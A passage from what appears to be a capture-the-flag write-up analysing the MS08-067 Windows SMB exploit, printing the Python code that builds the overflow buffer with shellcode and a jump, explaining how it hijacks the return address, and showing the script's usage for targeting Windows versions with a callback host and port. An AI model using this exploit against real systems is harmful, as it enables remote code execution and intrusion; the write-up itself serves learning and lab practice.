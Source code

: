 ```python
path        = "\x5c\x00" + "ABCDEFGHIJ" * 10 + self.shellcode
path       += "\x5c\x00\x2e\x00\x2e\x00\x5c\x00\x2e\x00\x2e\x00\x5c\x00\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00" + jumper + "\x00" * 2
server      = "\xde\xa4\x98\xc5\x08\x00\x00\x00\x00\x00\x00\x00\x08\x00\x00\x00\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00\x00\x00"
prefix      = "\x02\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x5c\x00\x00\x00"
MaxCount    = "\x36\x01\x00\x00"
Offset      = "\x00\x00\x00\x00"
ActualCount = "\x36\x01\x00\x00"
self.__stub = server + MaxCount + Offset + ActualCount + path + "\xE8\x03\x00\x00" + prefix + "\x01\x10\x00\x00\x00\x00\x00\x00"
```

`self.__stub` is then sent over the connection to the named pipe interface, the buffer overflows, placing a `jmp` instruction at the location of a return address, which then gets invoked by Windows when it returns from the internal function with that return address, and the CPU jumps to the shellcode and executes it!

#### Analysis Concluded

That was by far the deepest I've ever dug into exploit interals, and it was a very teaching experience. I'm tired of reading hex bytes now, so let's pick up the pace and get those flags!

### Script to shell, finally

Time to run the script!

```bash
$ ls -l
total 8
-rw-rw-r-- 1 kali kali 7272 Apr 14 09:31 ms08-067.py

$ ./ms08-067.py
zsh: permission denied: ./ms08-067.py

$ chmod +x ./ms08-067.py

$ ls -l
total 8
-rwxrwxr-x 1 kali kali 7272 Apr 14 09:31 ms08-067.py

$ ./ms08-067.py

Usage: ./ms08-067.py <TARGET_IP> <OS> <PORT> <LHOST> <LPORT>

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
```
